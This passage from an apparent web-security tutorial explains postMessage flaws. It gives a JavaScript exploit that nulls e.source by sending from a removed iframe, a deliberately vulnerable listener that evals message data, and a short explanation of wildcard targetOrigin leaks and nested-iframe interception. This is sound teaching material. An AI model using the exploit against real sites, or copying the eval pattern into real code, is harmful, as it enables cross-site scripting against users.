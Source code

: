 <pre class="language-javascript" data-title="Exploit"><code class="lang-javascript">function postMessageNoSource(w, data) {
  window.ref = w;  // Save arguments so iframe can access them
  window.data = data;
  const iframe = document.createElement("iframe");
  iframe.srcdoc = "";
  document.body.appendChild(iframe);
  iframe.onload = () => {
    // Send message from within iframe
<strong>    iframe.contentWindow.eval("top.ref.postMessage(top.data, '*')");
</strong><strong>    iframe.remove();  // Instantly remove it so the .source becomes null
</strong>  };
}

const w = window.open("http://127.0.0.1:8000/vuln.html");
setTimeout(() => {
<strong>  postMessageNoSource(w, "alert(origin)");
</strong>}, 1000);
</code></pre>

This vulnerability can also happen if it loosely compares ([`==`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Equality)) with a frame reference that may or may not exist, and using `.?` can return undefined. This will equal the `null` we can generate:

<pre class="language-javascript" data-title="Vulnerable example"><code class="lang-javascript">const trusted = document.getElementById("may-not-exist");
window.addEventListener("message", (e) => {
<strong>  if (e.source != trusted?.contentWindow) return;
</strong>
  eval(e.data);
});
</code></pre>

## Leaking messages

```javascript
window.postMessage(message, targetOrigin)
```

The first argument is for the _data_ sent. The only requirement for this data is that it can be sent using the [Structured Clone Algorithm](https://developer.mozilla.org/en-US/docs/Web/API/Web_Workers_API/Structured_clone_algorithm). The second argument is more interesting for vulnerabilities as it defines the `targetOrigin`. Because JavaScript doesn't know if the window's origin changed between loading the window and sending the message, this argument is another check that **verifies the origin of the window** you are sending a message to is the value in the string. The special `"*"` symbol means a wildcard, or any origin (less secure).

If a website does not verify where it is sending a message, you may be able to receive a message that wasn't intended for you.

### Nested iframe

One trick involving this idea is the fact that **any origin can change the location of frames within an iframe**. If we can iframe a target page that itself loads another iframe, we can change the location of this inner iframe to anything else to intercept messages. The following example uses example.com as the target domain, which loads an iframe of some other trusted page expecting a postMessage:
